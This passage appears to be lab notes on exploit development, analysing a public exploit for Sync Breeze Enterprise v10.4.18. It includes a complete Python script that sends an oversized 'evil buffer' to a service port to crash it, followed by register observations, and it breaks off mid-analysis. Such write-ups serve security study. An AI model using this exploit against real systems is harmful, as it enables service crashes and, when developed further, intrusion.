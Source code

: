 # Analyzing public exploit
- Vulnerable Binary: Sync Breeze Enterprise v10.4.18

Let's try to use the public exploit to trigger a crash:
```python
#!/usr/bin/python  
import socket  
import sys  
from struct import pack  
try:  
 server = "192.168.122.113"  
 port = 9121  
 size = 1000  
 inputBuffer = b"\x41" * size  
 header = b"\x75\x19\xba\xab"  
 header += b"\x03\x00\x00\x00"  
 header += b"\x00\x40\x00\x00"  
 header += pack('<I', len(inputBuffer))  
 header += pack('<I', len(inputBuffer))  
 header += pack('<I', inputBuffer[-1])  
 buf = header + inputBuffer  
 print("Sending evil buffer...")  
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
 s.connect((server, port))  
 s.send(buf)  
 s.close()  
  
 print("Done!")  
except socket.error:  
 print("Could not connect!")
```

When we execute the exploit, we see that the EAX register is overwritten, but not the EIP...
Seems like at this moment the EIP register is not directly under our control.
Also, there is some data in the stack that contains part of our payload:
